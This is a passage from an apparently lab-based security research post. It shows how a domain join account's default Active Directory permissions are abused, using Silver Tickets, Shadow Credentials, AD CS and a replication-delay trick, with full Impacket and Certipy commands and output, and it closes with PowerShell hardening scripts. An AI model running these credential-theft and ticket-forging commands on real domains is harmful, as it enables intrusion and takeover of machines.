user@adpen1:~$ ticketer.py -nthash 58a478135a93ac3bf058a5ea0e8fdb71 -domain-sid S-1-5-21-801220465-3856247095-653829165 -user-id 1103 -domain test.local -spn 'CIFS/DEMOMACHINE' test-admin
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for test.local/test-admin
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] PAC_SERVER_CHECKSUM
[*] PAC_PRIVSVR_CHECKSUM
[*] EncTicketPart
[*] EncTGSRepPart
[*] Saving ticket in test-admin.ccache
Ticket cache: FILE:/home/user/test-admin.ccache
user@adpen1:~$ KRB5CCNAME=~/test-admin.ccache secretsdump.py DEMOMACHINE -target-ip 100.64.5.212 -no-pass -k -debug
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies
[+] Impacket Library Installation Path: /home/user/.local/share/pipx/venvs/impacket/lib/python3.11/site-packages/impacket
[+] Using Kerberos Cache: /home/user/test-admin.ccache
[+] Domain retrieved from CCache: TEST.LOCAL
[+] Returning cached credential for CIFS/DEMOMACHINE@TEST.LOCAL
[+] Using TGS from cache
[+] Username retrieved from CCache: test-admin
[-] SMB SessionError: code: 0xc0000016 - STATUS_MORE_PROCESSING_REQUIRED - {Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.
At the moment, Reset password seems to be a dead-end, only resulting in denial
of service.
No mitigating actions needed here as we want to keep Reset password ACE
in order to reinstall machines.
Write msDS-KeyCredentialLink attribute - Shadow Credentials
Shadow Credentials, a.k.a, the ability to write certificates to the msDS-KeyCredentialLink
attribute in the computer object and then PKINIT your way to compromising the
machine has many similarities with RBCD.
There is no ACL provided by default that gives our domain join account the necessary permission to perform this attack as seen in the following codebox:
pywhisker -t DEMOMACHINE\$ -u domainjoin -p $PASS -d test.local -a add
[*] Searching for the target account
[*] Target user found: CN=DEMOMACHINE,CN=Computers,DC=test,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: ea09751f-61a4-ff19-81d9-4c762d24a480
[*] Updating the msDS-KeyCredentialLink attribute of DEMOMACHINE$
[!] Could not modify object, the server reports insufficient rights: 00002098: SecErr: DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
But as the legitimate usage for msDS-KeyCredentialLink is to enable Windows Hello for Business
where a user can login with PIN or biometrics instead of a password someone needs to
be able to write to this attribute?
To enable this login method the computer account must be able to write on its own attributes i.e. SELF:
user@adpen1:~$ DescribeNTSecurityDescriptor.py -u domainjoin -p $PASS -d test.local --summary -D CN=NEWCOMPUTER,CN=Computers,DC=test,DC=local | grep -i DS_VA
035. 'SELF' is allowed to Write Extended Properties on my Property Set DS_VALIDATED_WRITE_COMPUTER (inherited from the LDAP Attribute computer)
061. 'TEST.LOCAL\Domain Admins' is allowed to Write Extended Properties on my Property Set DS_VALIDATED_WRITE_COMPUTER
062. 'Creator Owner' is allowed to Write Extended Properties on my Property Set DS_VALIDATED_WRITE_COMPUTER (inherited from the LDAP Attribute computer)
So if we circle back to Reset password. Using this permission we will be able to obtain the SELF permission allowing
us DS_VALIDATED_WRITE_COMPUTER (Validated write to computer attributes).
So:
- Reset password of our target
- Use the computer account (SELF) to write
msDS-KeyCredentialLink - Exchange our PFX for a Kerberos TGT
- Access our target with for instance
smbclient.py
user@adpen1:~$ addcomputer.py test.local/domainjoin:$PASS -computer-name DEMOMACHINE\$ -no-add -computer-pass Password123
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Successfully set password of NEWCOMPUTER2$ to Password123.
user@adpen1:~$ pywhisker -t DEMOMACHINE\$ -u DEMOMACHINE\$ -p $PASS -d test.local -a add;
[*] Searching for the target account
[*] Target user found: CN=DEMOMACHINE,CN=Computers,DC=test,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 19215246-f8b6-1747-5b49-8e75a5e68630
[*] Updating the msDS-KeyCredentialLink attribute of DEMOMACHINE$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: a6xwbwfv.pfx
[+] PFX exportiert nach: a6xwbwfv.pfx
[i] Passwort f?r PFX: 1Rlwc5Mw6epUx31y0i6j
[+] Saved PFX (#PKCS12) certificate & key at path: a6xwbwfv.pfx
[*] Must be used with password: 1Rlwc5Mw6epUx31y0i6j
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
user@adpen1:~$ certipy auth -pfx a6xwbwfv.pfx -password 1Rlwc5Mw6epUx31y0i6j -username DEMOMACHINE\$ -domain test.local -dc-ip 100.64.5.200
Certipy v5.0.1 - by Oliver Lyak (ly4k)
[*] Certificate identities:
[*] No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'demomachine$@test.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'demomachine.ccache'
[*] Wrote credential cache to 'demomachine.ccache'
[*] Trying to retrieve NT hash for 'demomachine$'
[*] Got hash for 'demomachine$@test.local': aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71
user@adpen1:~$ KRB5CCNAME=~/demomachine.ccache smbclient.py DEMOMACHINE -target-ip 100.64.5.212 -no-pass -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[-] SMB SessionError: code: 0xc0000016 - STATUS_MORE_PROCESSING_REQUIRED - {Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.
Once again. Similar issue as with RBCD and Silver Tickets. We have a discrepancy with the machine account password
on the local client and Active Directory meaning our forged ticket results in a
0xc0000016 - STATUS_MORE_PROCESSING_REQUIRED and is not accepted.
Now, what differs Shadow Credentials from RBCD and Silver Tickets is that you forge a Kerberos Service Ticket (ST) encrypted with a NTLM hash - With Shadow Credentials we use PKINIT to exchange a public key pair for a Kerberos Ticket Granting Ticket (TGT), which then is used to issue Service Tickets (ST).
This means that, should the relationship between the target and the domain be repaired, the target would be able to validate the Kerberos Service Ticket:
And then accessing the target with smbclient.py the attack will succeed:
user@adpen1:~$ KRB5CCNAME=~/demomachine.ccache smbclient.py DEMOMACHINE -target-ip 100.64.5.212 -no-pass -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
Type help for list of commands
# shares
ADMIN$
C$
IPC$
Yay?
So in theory, if we perform this attack 1 day prior to the machine account expiration in Active Directory we could maybe break the trust and gain our TGT, and then allow the machine to self repair.
Not so fast. Because in order to repair the relationship the following two statements needs to be satisfied:
- Local admin/Local system privileges on the machine to change passwords in LSA
- In a normal, automatic scenario this is done by the
Netlogonservice
- In a normal, automatic scenario this is done by the
- An account with reset password on the computer object in active directory
- In a normal, automatic scenario this permission is made up of the local machine account NTLM authentication
The computer’s automatic repair function lacks the second requirement because the password in Active Directory has been changed and the authentication will not succeed.
This attack as well is a dead end.
For the sake of demonstration, the trust can be repaired by opening an elevated command
prompt on the broken machine and executing the following command with an account allowed
to Reset password on the machine account where the command is executed:
netdom resetpwd /Server:DC01 /UserD:domainjoin /PasswordD:-password-
But this is out of our control.
AD CS computer certificate
How about using straight up AD CS to exchange a certificate for a TGT?
user@adpen1:~$ certipy req -username DEMOMACHINE\$@test.local -password $PASS -ca test-CA01-CA -ns 100.64.5.200 -template Computer2 -dc-ip 100.64.5.200 -target ca01.test.local -upn DEMOMACHINE\$ -sid S-1-5-21-801220465-3856247095-653829165-1215
Certipy v5.0.1 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[*] Request ID is 35
[*] Successfully requested certificate
[*] Got certificate with UPN 'DEMOMACHINE$'
[*] Certificate object SID is 'S-1-5-21-801220465-3856247095-653829165-1215'
[*] Saving certificate and private key to 'demomachine.pfx'
[*] Wrote certificate and private key to 'demomachine.pfx'
user@adpen1:~$ certipy auth -pfx demomachine.pfx -dc-ip 100.64.5.200 -domain test.local -username DEMOMACHINE\$
Certipy v5.0.1 - by Oliver Lyak (ly4k)
[*] Certificate identities:
[*] SAN UPN: 'DEMOMACHINE$'
[*] SAN URL SID: 'S-1-5-21-801220465-3856247095-653829165-1215'
[*] Using principal: 'demomachine$@test.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'demomachine.ccache'
[*] Wrote credential cache to 'demomachine.ccache'
[*] Trying to retrieve NT hash for 'demomachine$'
[*] Got hash for 'demomachine$@test.local': aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71
user@adpen1:~$ KRB5CCNAME=~/demomachine.ccache smbclient.py DEMOMACHINE -no-pass -k -target-ip 100.64.5.212
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[-] SMB SessionError: code: 0xc0000016 - STATUS_MORE_PROCESSING_REQUIRED - {Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.
Same issue as with Shadow Credentials - the trust is broken.
Finally success (Reset password revisited)
After all these attempts there was not a single instance where we successfully compromised the target without breaking the trust. While feeling a bit low, a message was sent to a former colleague and awesome Windows hacker Jonas Vestberg (@bugch3ck) to discuss ideas.
What this chat ended with was the idea of abusing replication delays in Active Directory sites and if these could be abused to get ahold the prior password before reset by using PKINIT. From experience of being a Windows SysAdm this reminded me about some old problems where different Active Directory sites could be out-of-sync when creating new accounts in a remote site, and the lowest threshold for sync was 15 minutes. An exception to this 15 minutes replication windows is Bad Password Count which always is incremented and verified against the PDC (Primary Domain Controller) so nobody could password guess an account N time number-of-domain-controllers before lockout.
After brewing a cappuccino the task was set to expand the test environment with a DC02.
A new, Default-Second-Site-Name was created and the secondary DC was assigned
to this site:
And thank you nightmares for helping me remember the 15 minutes sync schedule:
So, first off, let’s check that our target has its password replicated. This is done with DCSync with a domain admin account against each DC:
user@adpen1:~$ secretsdump.py test.local/administrator:$DAPW@100.64.5.200 | grep DEMOMACHINE\$:1215; secretsdump.py test.local/administrator:$DAPW@100.64.55.200 | grep DEMOMACHINE\$:1215
DEMOMACHINE$:1215:aad3b435b51404eeaad3b435b51404ee:08730b1c9e9b033c5aa8eda12db7da06:::
DEMOMACHINE$:1215:aad3b435b51404eeaad3b435b51404ee:08730b1c9e9b033c5aa8eda12db7da06:::
Awesome. We have sync and we have made sure our machine’s trust relationship is working.
What we do next is to reset the DEMOMACHINE$ password on DC01 (100.64.5.200) with our domain join account:
user@adpen1:~$ addcomputer.py test.local/domainjoin:$PASS -computer-name DEMOMACHINE\$ -no-add -computer-pass Password123 -dc-ip 100.64.5.200
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Successfully set password of DEMOMACHINE$ to Password123.
And now we have broken the trust between DEMOMACHINE$ and DC01 but the password has not yet replicated to DC02:
user@adpen1:~$ secretsdump.py test.local/administrator:$DAPW@100.64.5.200 | grep DEMOMACHINE\$:1215; secretsdump.py test.local/administrator:$DAPW@100.64.55.200 | grep DEMOMACHINE\$:1215
DEMOMACHINE$:1215:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
DEMOMACHINE$:1215:aad3b435b51404eeaad3b435b51404ee:08730b1c9e9b033c5aa8eda12db7da06:::
This however contradicts what Steve Syfuhs writes in his blog post about computer account passwords:
We will now turn to AD CS and request a certificate for our machine account with our newly set password:
user@adpen1:~$ certipy req -username DEMOMACHINE\$@test.local -password Password123 -ca test-CA01-CA -ns 100.64.5.200 -template Computer2 -dc-ip 100.64.5.200 -target ca01.test.local -upn DEMOMACHINE\$ -sid S-1-5-21-801220465-3856247095-653829165-1215
Certipy v5.0.1 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[*] Request ID is 39
[*] Successfully requested certificate
[*] Got certificate with UPN 'DEMOMACHINE$'
[*] Certificate object SID is 'S-1-5-21-801220465-3856247095-653829165-1215'
[*] Saving certificate and private key to 'demomachine.pfx'
[*] Wrote certificate and private key to 'demomachine.pfx'
Now we’ll exchange the certificate for a Kerberos TGT via iPKINIT. We can obtain the NTLM hash
of the account as we can decrypt the ticket with the AES key. This is automated
in certipy auth:
user@adpen1:~$ certipy auth -pfx demomachine.pfx -dc-ip 100.64.5.200 -domain test.local -username DEMOMACHINE\$
Certipy v5.0.1 - by Oliver Lyak (ly4k)
[*] Certificate identities:
[*] SAN UPN: 'DEMOMACHINE$'
[*] SAN URL SID: 'S-1-5-21-801220465-3856247095-653829165-1215'
[*] Using principal: 'demomachine$@test.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'demomachine.ccache'
[*] Wrote credential cache to 'demomachine.ccache'
[*] Trying to retrieve NT hash for 'demomachine$'
[*] Got hash for 'demomachine$@test.local': aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71
Yes we receive the NTLM hash that we initially set: 58a478135a93ac3bf058a5ea0e8fdb71 (a.k.a Password123)
If we now however turn to DC02 - what hash will we obtain?
user@adpen1:~$ certipy auth -pfx demomachine.pfx -dc-ip 100.64.55.200 -domain test.local -username DEMOMACHINE\$
Certipy v5.0.1 - by Oliver Lyak (ly4k)
[*] Certificate identities:
[*] SAN UPN: 'DEMOMACHINE$'
[*] SAN URL SID: 'S-1-5-21-801220465-3856247095-653829165-1215'
[*] Using principal: 'demomachine$@test.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'demomachine.ccache'
[*] Wrote credential cache to 'demomachine.ccache'
[*] Trying to retrieve NT hash for 'demomachine$'
[*] Got hash for 'demomachine$@test.local': aad3b435b51404eeaad3b435b51404ee:08730b1c9e9b033c5aa8eda12db7da06
SCORE! We now have obtain the initial machine account password that we
previously did not know: 08730b1c9e9b033c5aa8eda12db7da06
Now we’ll restore the trust:
user@adpen1:~$ changepasswd.py test.local/DEMOMACHINE\$:Password123@test.local -newhashes 08730b1c9e9b033c5aa8eda12db7da06:08730b1c9e9b033c5aa8eda12db7da06 -dc-ip 100.64.5.200
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Changing the password of test.local\DEMOMACHINE$
[*] Connecting to DCE/RPC as test.local\DEMOMACHINE$
[*] Password was changed successfully.
[!] User will need to change their password on next logging because we are using hashes.
And create our Silver Ticket to compromise the target:
user@adpen1:~$ ticketer.py -nthash 08730b1c9e9b033c5aa8eda12db7da06 -domain-sid S-1-5-21-801220465-3856247095-653829165 -user-id 1103 -domain test.local -spn 'CIFS/DEMOMACHINE' test-admin
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for test.local/test-admin
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] PAC_SERVER_CHECKSUM
[*] PAC_PRIVSVR_CHECKSUM
[*] EncTicketPart
[*] EncTGSRepPart
[*] Saving ticket in test-admin.ccache
user@adpen1:~$ KRB5CCNAME=~/test-admin.ccache secretsdump.py DEMOMACHINE -target-ip 100.64.5.212 -no-pass -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x8e0ddbb9e9d348123a2d025c3253ee03
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[...]
Yay! This actually worked.. So in summary
The requirements for this attack to work include access to a domain join account with Reset password
on a target computer object. In addition an Active Directory Certificate Server
which is able to generate Computer certificates. This is very common
as this is basically what allows companies to run certificate based
enterprise WLAN’s. Additionally more than one Active Directory site is needed
in order to have a 15 minute windows of replication time.
Enough shenanigans for now. Let’s attempt to wrap up this article together with all mitigations we have set for our domain join account..
Summary
So we reviewed a lot of ACEs and learned a lot about Active Directory ACEs, inheritance, default SDDL and precedence.
We have shown how we could abuse default permissions assigned to our domain join
account to perform Read Legacy-LAPS, RBCD, Shadow Credentials and finally managed to
exploit Reset password without breaking machine trust.
It should also be noted that Reset password abuse comes without any mitigation
if the ability to reinstall a machine with SCCM is to remain possible.
Mitigations
The recommendation shown on Microsoft’s web site creates an over-privileged domain join account which if obtained by an attacker, can be used to compromise all machines which it has joined to the domain.
| Permission | Type | Notes | Exploitable |
|---|---|---|---|
| Read all properties | Read | Full read access to object attributes | Yes |
| Change password | Modify | User can change their own password | No |
| Reset password | Modify | Administrative password reset capability | Yes |
| Read and Write account restrictions | Modify | Write attributes | Yes |
| Validated write to DNS host name | Validated Write | Controlled DNS hostname modification | Not reviewed |
| Validated write to service principal name | Validated Write | Controlled SPN modification | Not reviewed |
| Allowed to authenticate | Security | Permission to authenticate to the domain | Not Reviewed |
| Write computername (pre-Windows 2000) | Write | Legacy computer name attribute | Not Reviewed |
| Write description | Write | Description attribute | No |
The following steps provide a hardened environment, where no known compromise can be performed from the perspective of the domain join account:
- Disable arbitrary users to create computer accounts
Set-ADDomain -Identity test.local -Replace @{ 'ms-DS-MachineAccountQuota' = 0 } -Verbose
- Change the owner from domain join to Domain Admins on all computers (Needs recurring run):
$domain="TEST"
$comps = Get-ADComputer -filter *
foreach($comp in $comps){
$comppath = "AD:$($comp.DistinguishedName.ToString())"
$acl = Get-Acl -Path $comppath
$objUser = New-Object System.Security.Principal.NTAccount($domain, "Domain Admins")
$acl.SetOwner($objUser)
Set-Acl -Path $comppath -AclObject $acl
}
- Allow domain join account to Create and Delete computer objects only in specific OUs:
# ---- SETTINGS ----
$ouDN = "OU=Workstations,DC=test,DC=local"
$entity = "domainjoin"
$permission = "Allow"
# ------------------
# Get the schemaIDGUID for the 'computer' class (object-specific ACE)
$schemaNC = (Get-ADRootDSE).schemaNamingContext
$computerClass = Get-ADObject -SearchBase $schemaNC -LDAPFilter "(lDAPDisplayName=computer)" -Properties schemaIDGUID
$guid = [Guid]$computerClass.schemaIDGUID
# ACE: Allow CreateChild + DeleteChild for the 'computer' class
$adRights = [System.DirectoryServices.ActiveDirectoryRights]::CreateChild -bor [System.DirectoryServices.ActiveDirectoryRights]::DeleteChild
$objectType = $guid
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::All
$accessControlType = [System.Security.AccessControl.AccessControlType]::$permission
$identityReference = New-Object System.Security.Principal.NTAccount($entity)
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($identityReference, $adRights, $accessControlType, $objectType, $inheritanceType)
# Apply to the OU
$acl = Get-ACL "AD:$ouDN"
$acl.AddAccessRule($ace)
Set-ACL -Path "AD:$ouDN" -AclObject $acl
- Deny domain join Legacy-LAPS read access on all computers (Needs recurring run):
# ---- SETTINGS ----
$entity = "domainjoin"
$guid = "ad27bc2b-cf04-424d-b705-5df50c7d5d37" # ms-Mcs-AdmPwd
$property = "ReadProperty"
$permission = "Deny"
# -------------------
# Define the ACE properties
$adRights = [System.DirectoryServices.ActiveDirectoryRights]::$property
$objectType = New-Object Guid $guid # GUID for the specific property
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$accessControlType = [System.Security.AccessControl.AccessControlType]::$permission
$identityReference = New-Object System.Security.Principal.NTAccount($entity)
# Create the ACE
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($identityReference, $adRights, $accessControlType, $objectType, $inheritanceType)
# Get ALL computer objects in the forest root domain and apply the deny
$computerDNs = (Get-ADComputer -Filter * -Properties distinguishedName).distinguishedName
foreach($computer in $computerDNs){
# Get the current ACL of the computer object
$acl = Get-ACL "AD:$computer"
# Add the new ACE to the ACL
$acl.AddAccessRule($ace)
# Set the modified ACL back to the computer object
Set-ACL -Path "AD:$computer" -AclObject $acl
}
- Deny domain join RBCD actions (Need recurring run):
# ---- SETTINGS ----
$entity = "domainjoin"
$guid = "3f78c3e5-f79a-46bd-a0b8-9d18116ddc79" # Write msDS-AllowedToActOnBehalfOfOtherIdentity
$property = "WriteProperty"
$permission = "Deny"
# -------------------
# Define the ACE properties
$adRights = [System.DirectoryServices.ActiveDirectoryRights]::$property
$objectType = New-Object Guid $guid # GUID for the specific property
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$accessControlType = [System.Security.AccessControl.AccessControlType]::$permission
$identityReference = New-Object System.Security.Principal.NTAccount($entity)
# Create the ACE
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($identityReference, $adRights, $accessControlType, $objectType, $inheritanceType)
# Get ALL computer objects in the forest root domain and apply the deny
$computerDNs = (Get-ADComputer -Filter * -Properties distinguishedName).distinguishedName
foreach($computer in $computerDNs){
# Get the current ACL of the computer object
$acl = Get-ACL "AD:$computer"
# Add the new ACE to the ACL
$acl.AddAccessRule($ace)
# Set the modified ACL back to the computer object
Set-ACL -Path "AD:$computer" -AclObject $acl
}
- Deny Reset password for domain join (Need recurring run and breaks the ability to rejoin a machine with domain join account):
# ---- SETTINGS ----
$entity = "domainjoin"
$guid = "00299570-246d-11d0-a768-00aa006e0529" # Extended right GUID for "Reset Password"
$property = "ExtendedRight"
$permission = "Deny"
# -------------------
# Define the ACE properties (template style)
$adRights = [System.DirectoryServices.ActiveDirectoryRights]::$property
$objectType = New-Object Guid $guid # GUID for the specific property
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None # this object only
$accessControlType = [System.Security.AccessControl.AccessControlType]::$permission
$identityReference = New-Object System.Security.Principal.NTAccount($entity)
# Create the ACE
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($identityReference, $adRights, $accessControlType, $objectType, $inheritanceType)
# Get ALL computer objects in the forest root domain and apply the deny
$computerDNs = (Get-ADComputer -Filter * -Properties distinguishedName).distinguishedName
foreach($computer in $computerDNs){
$acl = Get-ACL "AD:$computer"
$acl.AddAccessRule($ace)
Set-ACL -Path "AD:$computer" -AclObject $acl
}
Ending words
In the middle of writing this research post SpecterOps (Garrett Foster) publicised similar findings
which also touches Reset password, Write Account Restrictions and Microsoft domain
join account permission. Feeling a bit down over the fact that our research partly
overlapped my spirits were lifted when me and Garrett sat down in a 75 minute
screen sharing session exchanging and discussing notes from our research. Really
nice guy and very happy to have met him.
And shout-out to Jonas Vestberg for dropping the idea of replication delays!
Follow us on LinkedIn (https://linkedin.com/company/shelltrail) for more cybersecurity related content,
Cheers